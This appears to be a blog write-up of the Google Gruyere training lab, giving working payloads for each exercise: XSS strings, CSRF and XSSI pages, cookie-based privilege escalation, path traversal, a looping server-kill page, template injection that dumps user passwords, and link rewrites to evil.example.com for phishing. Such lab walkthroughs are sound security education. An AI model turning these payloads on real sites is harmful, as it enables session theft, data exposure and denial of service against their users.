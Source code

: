 ```yaml
---
layout: post
title: Google Gruyere
---
```

#XSS

##File upload
For this I simply uploaded the following in an HTML file:

{% highlight html %}
<html><head<title></title></head><body><script>alert('hi')</script></body>
{% endhighlight %}

Then browsed to the URL provided

##Reflected XSS
This was as simple as appending the following to the site URL:

{% highlight  html %}
<script>alert('hi')</script>
{% endhighlight %}

##Stored XSS
Here there are two places that come to mind immediately, snippets and the profile page.  There are quite a few ways to skin this cat, the one I was able to get working in multiple browsers was by using the onmouseover attribute of valid HTML elements to pop an alert, this was done using a snippet:

{% highlight html %}
<a href="#" onmouseover="alert(1)">test</a>
{% endhighlight %}

##Stored XSS Via HTML Attributes
The only place I can think of to perform this other than a snippet which we already got exploited is in the profile page, it wasn't obvious to be intially, but the profile color input can be used to apply inline CSS to your name on the home page.  For this I ended up with the following:

{% highlight html %}
black' onmouseover='alert(1)' onfocus='alert(2)' onblur='alert(3)
{% endhighlight %}

This makes my user's name throw an alert on hover, then on the edit profile page is pops on focus and blur, one thing to note, this didn't initially fire because I was trying to follow normal HTML standards, after viewing page source rather than using browser debug tools I saw single quotes were used rather than normal double quotes.

##Stored XSS Via Ajax
This one took a lot of messing around, based on Google's provided hints, the refresh button was our target.  After tinkering a lot I was able to come up with this:

{% highlight javascript %}
hey <span style=display:none>eval(" + (alert(1),"") + ")</span>hi
{% endhighlight %}

This works because when you hit refresh on home a JSON object containing the latest snippets from each user gets eval'd in JavaScript, it took me quite a while to get this because I kept thinking I would need valid JSON, however when using eval the JSON value just has to be parseable JavaScript.

##Reflected XSS Via Ajax
This is very similar to the previous reflected XSS attack mentioned previously, it just gets hit in a different way.  After reading and looking through the code samples Google provides I noticed that the feed page when supplied the uid query string parameter does an eval-ish processing on the page that takes a URL like this:

{% highlight html %}
feed.gtl?uid=<script>alert(1)</script>
{% endhighlight %}

Then renders like this in page source:
{% highlight javascript %}
_feed((
[
"<script>alert(1)</script>"
]
))
{% endhighlight %}



{
"private_snippet":
  "private"

,"cheddar":
  "Gruyere is the cheesiest application on the web."


,"bob":
  "all <span style=display:none>" + (alert(1),"") + "</span>your base"
,"brie":
  "Brie is the queen of the cheeses<span style=color:red>!!!</span>"
}

#Client-State manipulation

##Priviledge elevation
In watching requests go through Burp I noticed that user registration passes the query string parameter is_author=True, which made me wonder if there was an is_admin option to pass.  After that I was seeing my requests to update a user profile, this also included the is_author parameter.  So I just started trying to set is admin.  Initially it seemed like no attempts were working, after looking through Google's hints it turns out that you need to log out then log back in, this way the cookie that gets used to identify you includes the admin flag, which doesn't happen by just editing the cookie.  

The reason for this is that the cookie is structured as follows:

32400598|bob||author

The first integer value is a token that gets generated server side, this seems to be the reason I wasn't able to just modify the cookie directly to get elevated privilidges.  Upon logging out and back in the cookie looks more like this:

32400598|bob|admin|author

Now the profile page has all the admin options and the manage server link also shows up.

##Cookie manipulation
This actually ended up being a bit more difficult, the cookie that gets set to identify a given browser as being a given system user gets generated based on the login or signing up of a user.  After trying a lot of different options I broke down and looked at the hints from Google and ended up with:

brie|admin|author

As my username when registering, a side affect (or what appears to be one) is that this can circumvent logging in as well.  Upon clicking sign in I was authenticated as brie without actually logging in.

##CSRF
All of these items require browsing an HTML file locally while also authenticated with Gruyere

To complete the exercise of deleting someone's snippet:
{% highlight html %}
<html><head><title></title></head><body><img src="http://google-gruyere.appspot.com/458351305912/deletesnippet?index=0" /></body></html>
{% endhighlight %}

Then just for fun, I tested updating a user's profile using the same technique, which worked:
{% highlight html %}
<html><head><title></title></head><body><img src="http://google-gruyere.appspot.com/458351305912/saveprofile?action=update&uid=bob&name=bob&oldpw=&pw=&icon=buttfart&web_site=http%3A%2F%2Fgithub.com&color=black&private_snippet=privat" />
</body></html>
{% endhighlight %}

##XSSI
For this exercise I ended up with:
{% highlight html %}
<html><head><title></title></head><body>
<script>function _feed(s) {document.write('your private thing is: ' + s['private_snippet']);}</script><script src="http://google-gruyere.appspot.com/458351305912/feed.gtl"></script></body></html>
{% endhighlight %}

What this is doing is defining a function that matches how the JavaScript in feed.gtl gets called, and then outputting data stored outside of our local files boundaries, but because the executing script has Google's system/domain as its context it has access to the snipped data where our _feed(s) function would have never originally had access.

#Path Traversal

##Information disclosure via path traversal
This ended up being really simple, but the browser was correcting the URL so it didn't work initially, my ../secret.txt needed to be ..%2Fsecret.txt, updating the encoding made things work.

##Data tampering via path traversal
For this one I started off trying to get the file overwritten by having a filename that included the directory traversal, however that just wouldn't work:
..%2F..2Fsecret.txt

After a bit of head scratching the username ended up working, signing up as a user with the name: ..%2F..%2F then uploading a new secret.txt, success.

#Denial of Service

##DoS - Quit the server
This one was pretty fun.  I totally forgot about CORS and originally wrote up a snippet of JavaScript to try and get this working, however the ajax requests got blocked by browser security.  

{% highlight html %}
<html>
  <head>
      <title></title>
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
      <script>
          (function($) {
              'use strict';
              var killbot = {
                  init: function() {
                      setInterval(function() {
                          $.ajax({
                              method: 'GET',
                              url: 'http://google-gruyere.appspot.com/458351305912/quitserver'
                          }).done(function(response) {
                              document.write('Killed server successfully\n');
                              document.write(response);
                          }).error(function(response) {
                              document.write('Error killing server');
                              document.write(response);
                          });
                      }, 5000);
                  },
                  handleEvents: function() {
                      let self = this;
                      $('#start').on('click', function(e) {
                          e.preventDefault();
                          self.init();
                      });

                      $('#stop').on('click', function() {
                          e.preventDefault();
                          clearInterval();
                      });
                  }
              };
              killbot.init();
          }(jQuery));
      </script>
  </head>
  <body>
      <ul>
          <li><a href="#" id="start">start</a></li>
          <li><a href="#" id="stop">stop</a></li>
      </ul>
      <img src=""
  </body>
</html>
{% endhighlight}

At this point I was thinking how useful would making a CSRF-ish attack using an image tag be?  It turns out with some Javascript and the image tag method worked together beautifully.  

{% highlight html %}
<html>
  <head>
      <title></title>
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
      <script>
          (function($) {
              'use strict';
              var killbot = {
                  init: function() {
                      setInterval(function() {
                          $('img').attr('src', 'http://google-gruyere.appspot.com/458351305912/quitserver');
                      }, 200);
                  },
                  handleEvents: function() {
                      let self = this;
                      $('#start').on('click', function(e) {
                          e.preventDefault();
                          self.init();
                      });

                      $('#stop').on('click', function() {
                          e.preventDefault();
                          clearInterval();
                      });
                  }
              };
              killbot.init();
          }(jQuery));
      </script>
  </head>
  <body>
      <ul>
          <li><a href="#" id="start">start</a></li>
          <li><a href="#" id="stop">stop</a></li>
      </ul>
      <img src="http://google-gruyere.appspot.com/458351305912/quitserver" />
  </body>
</html>
{% endhighlight %}

This worked both in an authenticated and un-authenticated browser session, its basically utilizing the same method to continually performing the server quit action on a loop.  Then just for fun I tried this on a browser that wasn't authenticated and it still worked, double whammy.

##DoS - Overloading the server
I had to look at the hints on this one to get it working.  Pretty much just overridding a template that gets rendered on every page, it ended up being menubar.gtl:

{% highlight python %} 
[[include:menubar.gtl]]DoS[[/include:menubar.gtl]]
{% endhighlight %}

#Code Execution
From looking at the files that power gruyer and the docs it looks like one of these .py files could be used.  I tried a few, the last of which being sanitize.py adding the following:

{% highlight python %}
from urlparse import urlparse, parse_qs

form = util.FieldStorage(req, keep_blank_values=1)
myparameter = form.getfirst("cmd")
print myparameter
{% endhighlight %}

#Configuration Vulnerabilities

##Information Disclosure 1
This one ended up being pretty easy, the description mentioned checking the files, a quick search through with grep for debug and config:

{% highlight bash %}
grep -irE 'debug|config' *
gruyere.py:  def _DoReset(self, cookie, specials, params):  # debug only; resets this db
gtl.py:  elif escaper_name == 'pprint':  # for debugging
resources/dump.gtl:<title>Debug Dump</title>
{% endhighlight %}

Looking at dump.gtl is prints the database out to a page:
{% highlight json %}
_cookie:  	

{'is_admin': True, 'is_author': True, 'uid': u'bob'}

_profile:  	

{'is_author': 'True', 'name': 'bob', 'pw': 'password'}

_db:  	

{'../': {'is_author': 'True', 'name': '../', 'pw': 'password'},
 '../../': {'is_author': 'True', 'name': '../../', 'pw': 'password'},
 'administrator': {'is_admin': True,
                   'is_author': False,
                   'name': 'Admin',
                   'private_snippet': 'My password is secret. Get it?',
                   'pw': 'secret',
                   'web_site': 'http://www.google.com/contact/security.html'},
 'bob': {'is_author': 'True', 'name': 'bob', 'pw': 'password'},
 'bob|admin|author': {'is_author': 'True',
                      'name': 'bob|admin|author',
                      'pw': 'password'},
 'brie': {'color': 'red; text-decoration:underline',
          'is_admin': False,
          'is_author': True,
          'name': 'Brie',
          'private_snippet': 'I use the same password for all my accounts.',
          'pw': 'briebrie',
          'snippets': ['Brie is the queen of the cheeses<span style=color:red>!!!</span>'],
          'web_site': 'http://news.google.com/news/search?q=brie'},
 'cheddar': {'color': 'blue',
             'is_admin': False,
             'is_author': True,
             'name': 'Cheddar Mac',
             'private_snippet': 'My SSN is <a href="http://www.google.com/search?q=078-05-1120">078-05-1120</a>.',
             'pw': 'orange',
             'snippets': ['Gruyere is the cheesiest application on the web.',
                          'I wonder if there are any security holes in this....'],
             'web_site': 'http://images.google.com/images?q=cheddar+cheese'},
 'sardo': {'color': 'red',
           'is_admin': False,
           'is_author': True,
           'name': 'Miss Sardo',
           'private_snippet': 'I hate my brother Romano.',
           'pw': 'odras',
           'snippets': [],
           'web_site': 'http://www.google.com/search?q="pecorino+sardo"'}}
{% endhighlight %}

##Information Disclosure 2
After digging around more in the code thinking the vulnerability existed somewhere else I remembered that I can just upload arbitrary files to the server.  So I just went and uploaded the dump.gtl file back to the server in resources, then I was able to use the dump template again.

##Information Disclosure 3
This one referred to bad code so I starting going through the python some more.  Looking at gtl.py, which looks like it handles the various components of the templating language.  There is a section that uses {{ }} as variables:

{% highlight python %}
VAR_OPEN = '{{'
VAR_CLOSE = '}}'


def _ExpandVariables(template, specials, params, name):
  """Expands all the variables in a template."""
  result = []
  rest = template
  while rest:
    tag, before_tag, after_tag = _FindTag(rest, VAR_OPEN, VAR_CLOSE)
    if tag is None:
      break
    result.append(rest[:before_tag])
    result.append(str(_ExpandVariable(tag, specials, params, name)))
    rest = rest[after_tag:]
  return ''.join(result) + rest
{% endhighlight %}

This looks like it would be used for handling something like {{_db:pprint}} from dump.gtl

Looking at the edit/show profile template, two of the fields in a profile use the {{}} syntax for outputting data:

{% highlight html %}
<input type='text' name='web_site' value='{{_profile.web_site:text}}'>
<input type='text' name='private_snippet' value='{{_profile.private_snippet:text}}'>
{% endhighlight %}

They look like something to check out, lets just try putting {{_db:pprint}} in.

After saving the db dump gets thrown into the form controls.

#Ajax Vulnerabilities

##DoS via Ajax
{% highlight javascript %}
" + eval(document.getElementById('menu-right').getElementsByTagName('a')[0].setAttribute('href', 'http://evil.example.com')) + "
{% endhighlight %}

##Phishing via Ajax
" + eval(console.log(document.getElementById('menu-right').getElementsByTagName('a')[0].setAttribute('href', 'http://evil.example.com'))) + "